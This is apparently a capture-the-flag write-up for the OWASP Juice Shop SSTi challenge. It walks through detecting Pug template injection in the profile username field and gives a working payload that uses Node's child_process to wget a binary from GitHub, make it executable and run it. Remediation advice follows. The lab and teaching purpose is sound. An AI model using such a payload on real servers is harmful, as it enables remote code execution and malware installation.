




# Juice-Shop Write-up: Server-Side Template Injection (SSTi)

## Challenge Overview
**Title:** SSTi  
**Category:** Server-Side Template Injection (SSTi)  
**Difficulty:** ⭐⭐⭐⭐⭐⭐ (6/6)  

The objective of this challenge is to exploit a Server-Side Template Injection (SSTi) vulnerability to "infect" the server with a specially crafted malware.

## Tools Used
- **Web Browser:** For navigating the Juice Shop application.
- **Developer Tools:** To inspect and manipulate HTML and JavaScript code.
- **Command Line Tools:** For downloading and executing the malware on the server.

## Methodology and Solution

### Step 1: Understanding the Challenge
The challenge hints provide important information:
- **No Reverse Engineering Required:** The focus is on exploiting SSTi without needing to analyze the malware.
- **Finding the Malware:** The malware can be found via a Google search for "juicy malware" or by accessing the Juice Shop's FTP quarantine folder.

### Step 2: Locating the Malware
1. **Google Search:** Searching "juicy malware" on Google leads to the following GitHub repository:
   - [Juicy Malware on GitHub](https://github.com/juice-shop/juicy-malware)
2. **FTP Quarantine Folder:** Alternatively, navigate to `127.0.0.1:3000/#/ftp/quarantine` and download the malware using the NULL byte technique (add %2500.md after the URL, refet to previous challenges if needed).

### Step 3: Preparing the Malware Execution Command

Since Juice Shop is running on my local machine (a Linux system), the goal is to download and execute the malware on this serve. Here is the command that we want the server to execute : 

- **Command to execute:** 
  ```bash
  wget -O malware https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_amd_64?raw=true && chmod +x malware && ./malware
  ```

This command downloads the malware, makes it executable, and then runs it.

### Step 4: Identifying the SSTi Vulnerability
After inspecting various parts of the application looking for a page that use template, notably the GitHub page of Juice Shop, the profile page was found to use Pug (formerly Jade) template. Alternatively, you can also try basic template injection in every inputs to find the page that we must exploit.
- **Pug JS:** It's a templating engine that uses variables like `#{variable}` to render dynamic content.



### Step 5: Testing for SSTi
1. **Injecting Simple Expression:** In the username input field, enter `#{1 + 1}` and click "Set Username".
   - **Result:** The username is set to `2`, confirming SSTi vulnerability.



2. **Injecting Dynamix Expression:** Also in the username inpt field, we try more complex payload that involve a command execution : 



### Step 6: Crafting the Payload
To execute the malware, we inject a payload that uses the Node.js `child_process` module to execute system commands:
- **Payload:**
  ```pug
  #{global.process.mainModule.require('child_process').exec('wget -O malware https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_amd_64?raw=true && chmod +x malware && ./malware')}
  ```

### Step 7: Executing the Payload
1. **Enter Payload:** Input the payload into the username field and submit.



2. **Verification:** The command should execute, downloading and running the malware on the server.

## Solution Explanation
The challenge was solved by exploiting an SSTi vulnerability in the Pug templating engine. By injecting a payload that executes system commands via the Node.js `child_process` module, we were able to download and run the malware, demonstrating the vulnerability.

## Remediation
- **Input Validation and Sanitization:** Ensure all user inputs are properly validated and sanitized to prevent injection attacks.
- **Template Engine Security:** Use safe templating practices and avoid rendering untrusted input within templates.
- **Limit Server Permissions:** Restrict the server's ability to execute system commands and download files from external sources.

